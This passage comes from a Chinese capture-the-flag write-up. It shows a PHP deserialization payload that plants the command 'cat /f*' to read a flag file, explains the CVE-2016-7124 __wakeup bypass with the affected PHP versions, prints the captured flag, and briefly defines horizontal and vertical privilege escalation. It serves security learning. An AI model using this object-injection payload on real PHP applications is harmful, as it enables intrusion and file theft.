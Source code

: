 ```php
$a->notes->sth->whoami->cmd = "cat /f*";

echo serialize($a);
```
**cve-2016-7124**

```
__wakeup函数绕过
影响范围：

- PHP5 < 5.6.25
- PHP7 < 7.0.10

正常来说在反序列化过程中，会先调用wakeup()方法再进行unserilize()，但如果序列化字符串中表示对象属性个数的值大于真实的属性个数时，wakeup()的执行会被跳过。
```

**flag**

```
NSSCTF{dea9d35e-edbd-48ee-8daf-7227d0b4fb08}
```

## 越权漏洞

**横向越权**：攻击者尝试访问与他拥有相同权限的用户的资源

示例：购物系统中A用户可以可以查询到B用户的订单信息。

**纵向越权**：攻击者可以使用低权限的账户去使用高权限账户的功能。

示例：原本没有删除功能的用户A可以使用管理员用户的删除功能删除了管理员用户中的数据。
